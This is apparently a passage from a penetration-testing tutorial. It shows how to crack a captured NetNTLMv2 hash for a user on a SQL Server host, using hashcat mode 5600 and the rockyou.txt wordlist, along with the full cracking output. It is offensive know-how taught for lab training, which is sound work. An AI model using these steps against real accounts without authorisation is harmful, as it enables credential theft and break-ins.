 
## Extra: Cracking the Hash

If the user (whose hash we captured) uses a weak password, we may be able to crack it. We can use [hashcat](https://hashcat.net/hashcat/) with the mode `5600` like this:

```shell
hashcat -m 5600 <hash> <wordlist>

```

In this case, we can input the `hash` we captured and use `rockyou.txt` as the wordlist to crack the password:

```shell
hashcat -m 5600 'jason::SQL01:bd7f162c24a39a0f:94DF80C5ABB<SNIP>000000' /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

<SNIP>

jason::SQL01:bd7f162c24a39a0f:94DF80C5ABB<SNIP>000000:<SNIP>

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: JASON::SQL01:bd7f162c24a39a0f:94df80c5abb...000000
Time.Started.....: Wed Dec 14 08:29:13 2022 (10 secs)
Time.Estimated...: Wed Dec 14 08:29:23 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1098.3 kH/s (1.17ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10829824/14344385 (75.50%)
Rejected.........: 0/10829824 (0.00%)
Restore.Point....: 10827776/14344385 (75.48%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Memphis~11 -> Meangirls7
Hardware.Mon.#1..: Util: 69%

Started: Wed Dec 14 08:29:12 2022
Stopped: Wed Dec 14 08:29:24 2022

```


# File Read

## Theory
